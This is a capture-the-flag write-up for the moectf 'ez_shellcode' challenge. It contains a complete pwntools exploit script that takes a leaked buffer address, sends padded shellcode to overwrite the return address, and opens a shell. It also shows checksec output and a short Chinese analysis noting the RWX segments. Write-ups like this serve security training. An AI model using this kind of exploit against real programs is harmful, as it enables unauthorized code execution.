

# moectf ez_shellcode

```python
from pwn import *
context.terminal = ['wt.exe','wsl']
context.log_level = 'debug'
context.arch = 'amd64'
p = process('./pwn')
p.recvuntil("age")
p.sendline('130')
p.recvuntil("you :\n")
buf_addr = int(p.recvuntil('\n').decode(), 16)
payload = asm(shellcraft.sh()).ljust(0x60+0x8,b'a') + p64(buf_addr)
p.recvuntil("say")
p.send(payload)
p.interactive()
```

## 分析

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/moectf/ez_shellcode/pwn'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```




可以看到第一个输入名字就是我们的输入长度，然后还将输入地址打印出来，并且还有`RWX`区域，直接写入shellcode就好

